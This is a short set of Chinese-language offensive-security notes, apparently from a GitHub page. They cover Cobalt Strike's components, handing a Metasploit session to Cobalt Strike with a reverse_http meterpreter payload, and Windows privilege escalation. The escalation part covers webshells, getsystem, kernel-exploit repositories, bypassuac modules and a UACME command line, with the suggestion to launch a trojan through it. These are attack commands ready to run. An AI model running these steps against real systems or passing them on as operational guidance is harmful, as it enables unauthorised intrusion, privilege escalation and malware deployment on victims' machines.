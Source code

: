 > 界面说明

```
Beacon: 轻量级的命令与控制代理
TeamServer:团队成员协作的核心
有效载荷：用于在目标系统建立Beacon
监听器：用于接收beacon连接的服务
后渗透工具：自己添加
模拟攻击：钓鱼攻击
```

> 会话转移

```sh
background
set session										##选择会话
use exploit/windows/local/payload_inject		##使用模块
set payload windows/meterpreter/reverse_http	##设置payload
set lhost	xxx									##设置为csIP和端口
set disablepayloadhandle true					##关闭原本payload的监听
exploit | run -j								##运行并转接
```

> 扩展插件

自己搜补充



## windows提权

> getshell提权

```
通过网站漏洞进行提权，先小马，再大马(CS 或者其他)
```

> 内核漏洞提权

```
方法1：使用MSF getsystem
		getuid
		migrate	进程号
方法2：内核提权
		利用系统补丁获取漏洞
		补丁分析平台：https://tools.zjun.info/getmskb/
		exp平台：https://github.com/SecWiki/windows-kernel-exploits/tree/master

方法3：BypassUAC
		msf里面搜索bypassuac
		search bypassuac
		
方法4：UACME提权
	项目地址：https://github.com/hfiref0x/UACME
	代码：akagi64 61 c:\windows\system32\charmap.exe
	使用  方法：程序名 编号 想要执行的程序
	思路：将要执行的程序换成提权程序或是木马文件
```
